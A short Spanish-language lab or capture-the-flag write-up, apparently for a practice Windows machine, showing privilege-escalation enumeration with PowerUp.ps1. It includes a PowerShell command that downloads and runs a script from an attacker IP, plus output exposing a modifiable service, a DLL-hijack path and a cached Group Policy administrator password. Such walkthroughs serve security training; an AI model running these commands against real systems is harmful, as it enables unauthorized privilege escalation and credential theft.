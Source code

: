 # Privesc - PowerUp.ps1 - Enumeracion Windows
Enumeramos un poco, al ver que estamos en un proceso con la misma arquitectura de la maquina victima procedemos a Postear nuestro Script `PowerUp.ps1`

```bash
[Environment]::Is64BitOperatingSystem
True
[Environment]::Is64BitProcess
True
```

Maquina Vitctima
```bash
IEX(New-Object Net.WebClient).downloadString("http://10.10.16.3/PowerUp.ps1")
```
`Output` de `PowerUp.ps1`
```bash
Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 2196
ProcessId   : 2960
Name        : 2960
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

ModifiablePath    : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
IdentityReference : QUERIER\mssql-svc
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files

Changed   : {2019-01-28 23:12:48}
UserNames : "{Administrator} "
NewName   : [BLANK]
Passwords : " {MyUnclesAreMarioAndLuigi!!1!} "
File      : C:\ProgramData\Microsoft\Group 
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files
``` 
